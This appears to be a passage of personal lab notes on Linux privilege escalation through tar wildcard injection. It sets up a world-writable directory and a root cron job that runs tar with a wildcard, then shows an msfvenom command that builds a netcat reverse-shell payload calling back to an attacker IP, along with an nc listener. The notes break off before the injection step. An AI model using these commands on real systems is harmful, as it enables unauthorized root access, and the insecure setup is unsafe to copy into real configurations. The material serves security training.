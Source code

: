    For example, make a new directory and give ALL permission to it and then create some files.
```shell
mkdir html
chmod 777 html
cd html
touch index.html
touch raj
touch file.txt   
```
![[linux_privesc31.png]]

**Now schedule a task with help of crontab to run tar archival program for taking backup of /html from inside /var/backups in every 1 minute.**
```shell
nano /etc/crontab
*/1 *   * * *   root tar -zcf /var/backups/html.tgz /var/www/html/*
```

![[linux_privesc32.png]]

**Let’s verify the schedule is working or not by executing the following command.**
```shell
cd /var/backup
ls
```
![[linux_privesc33.png]]

#### Tar Wildcard Injection (1st method)
   - Start your attacking machine and first compromise the target system and then move to the privilege escalation stage.
   - Suppose I successfully login into the victim’s machine through ssh and access the non-root user terminal.

Then open crontab to view if any job is scheduled.
```shell
cat /etc/crontab
```

**Here we notice the target has scheduled a tar archival program for every 1 minute and we know that cron job runs as root**
![[linux_privesc34.png]]


>On a new terminal generate netcat reverse shell malicious code for achieving netcat reverse connection by using msfvenom and enter the following command for that.
```shell
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.102 lport=8888 R
```

**Run the below command on another terminal**
```python
nc -lvp 8888
```


**Copy the generated payload and paste it inside the victim’s shell as described below.**
![[linux_privesc35.png]]
